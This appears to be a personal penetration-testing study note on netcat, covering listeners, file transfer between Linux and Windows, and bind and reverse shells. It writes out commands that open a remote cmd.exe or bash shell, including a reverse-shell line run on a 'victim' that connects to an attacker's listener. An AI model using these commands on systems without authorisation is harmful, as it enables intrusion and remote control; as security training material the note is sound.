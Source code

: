 ![](</Images/Pasted image 20240111191515.png>)

Client Mode: connecting to hosts/ports

netcat for window stored in Kali @ `/usr/share/windows-binaries/nc.exe`

Listener: `nc -nvlp 1245`
(Client) Connect to listener: `nc.exe -nv <ip> <port>`

### transfer files with nc
Listener will receive. Transfer done with < and > (post / recieve)

ex. from Linux to Windows
**linux**
`nc -np <ip> 1234 < test.txt`

**windows - download**
`nc.exe -nvlp 1234 > test.txt`

### bind shells
#bindshells

![](</Images/Pasted image 20240111203700.png>)

Example using above diagram set to run cmd.exe

**windows - listener**
`nc.exe -nvlp 1234 -e cmd.exe'
> if going the other direction to get linux shell need -c instead of -e

**linux - client**
`nc -nv <ip> <port>`


### reverse shells
#reverseshell

![](</Images/Pasted image 20240112193844.png>)
Preferred over bind shell mainly due to outgoing traffic not being blocked from leaving machine and IP doesn't need to be put on victim machine

**windows victim**
Transfer nc.exe first
`nc.exe -nv < attack ip> <port> -e <shell type>` since on windows cmd.exe where linux is /bin/bash

**linux attack**
set up listener with `nc -lvnp 1234`

